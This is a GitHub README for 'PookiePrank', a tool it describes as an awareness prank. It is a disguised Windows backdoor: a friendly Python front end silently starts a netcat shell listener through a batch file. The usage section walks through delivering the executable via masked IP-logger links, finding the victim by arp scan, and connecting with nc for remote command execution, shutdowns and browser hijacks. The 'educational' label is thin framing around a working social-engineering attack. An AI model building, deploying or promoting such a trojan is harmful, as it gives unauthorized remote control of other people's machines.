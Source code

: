 # PookiePrank: A Cute but Terrifying Cybersecurity Awareness Tool 💀🎀


**PLEASE READ THE FULL DOCUMENTATION TO FULLY UNDERSTAND THE PROJECT AND HOW TO MAKE IT ACTUALLY WORK.**
---

## Table of Contents
- [What Is This?](#what-is-this)
- [Features](#features)
- [Why?](#why)
- [Usage](#usage)
- [Responsible Pranking Guidelines](#responsible-pranking-guidelines)
- [Legal Disclaimer](#legal-disclaimer)
- [Future Plans](#future-plans)

## What Is This?

**PookiePrank** is a lightweight "educational" program designed to demonstrate the importance of digital awareness through *strategic chaos*.  
It's a prank tool wrapped in charm — **cute on the outside, spooky on the inside**.

- Uses `netcat` for remote shell access (with full user control)
- Disguised behind a friendly-looking Python CLI
- An educational project that puts a Windows OS to vulnerability (and attacks eventually if not taken care of).
- Perfect for ethical demos, cybersecurity training, and… *light mischief*.

---

## Features

- **Silent Netcat Backdoor:** Triggers a reverse shell silently via batch file.
- **User Distraction UI:** Friendly messages and fake interactions to lower suspicion.
- **Remote Payload Execution:** Once connected, send commands in real-time.
- **Prank Arsenal:** Shutdowns, message popups, browser hijacks, and more.
- **Educational Angle:** Reinforces the dangers of blind trust in random executables.

---

## Why?

Because **security through trauma** works.  
This tool is designed to:

- Raise awareness of how easily social engineering works.
- Show how reverse shells operate.
- Make friends laugh *and* cry.
- Be a conversation starter in any cybersecurity interview.

---

## Usage

1. Host the executable and `netcat` folder.
2. Send the masked download link using a shortened IP logger service.
3. Wait for the target to run the file.
4. Connect to the shell:
- **On target machine (Runs automatically with python script)**.
   ```bash
   nc64 -lvp 4444
   ```
   
- **Attacker's Machine**.
  - **For Linux**
    ```bash
    nc <ip_address_of_the_target_machine> 4444
    ```
  
  - **For Windows**
    ```bash
    nc64 <ip_address_of_the_target_machine> 4444
    ```
    
   - Windows users can download `netcat` tool from [this repository](https://github.com/int0x33/nc.exe/)
   - In Linux, the netcat comes preinstalled.
 
   ---

   **NOTE:**
   
   - You will need to know the target ip address beforehand. You can either use IP Loggers or do an `arp` scan over the local network.
   
   - If you are on a virtual machine, perform an arp scan on your host machine.
   
   - **For Windows**
     ```bash
     arp -a
     ```
     
   - **For Linux**
     ```bash
     sudo arp-scan --localnet
     ```
     
   This will list all the IP addresses in a network and we have to find our target from this. We can use the hit and trial method here by using the netcat command.
   

  If port 4444 is open on any IP address, it may be our target machine.

  Try connecting using the Netcat command — if it’s successful, you're in.


6. Enjoy responsibly (or face karmic doom).
  ---




---

## Responsible Pranking Guidelines

1. No persistence (no startup or registry hacks).

2. No firewall tampering.

3. No data theft or spying.

4. Always reveal the prank eventually.

5. Use only on friends who won't yeet you into oblivion.



---

## Legal Disclaimer

**This project is for educational and ethical use only.
The creator takes no responsibility for misuse or unforeseen Rickroll (or any) damage caused by the same.**


---

## Future Plans

1. Add GUI launcher with meme themes

2. Auto-cancel prank if user types a secret code

3. PookieSec Dashboard™ for multi-prank coordination

4. Add dancing ASCII Rick in the terminal



## One Last Thing...

> **IMPORTANT:** For this prank to work, **you and your target must be on the same network** (e.g., college Wi-Fi, LAN party, cursed hostel internet).  
> Netcat operates over **local IP addresses** unless you're routing through public ports with port forwarding — which we’re *not doing here* (because jail is not part of the prank).

So yeah — **same Wi-Fi = RickRoll access granted**.

Stay stealthy, stay sassy. 😎🎀

— *PookieSec Ops Out.*

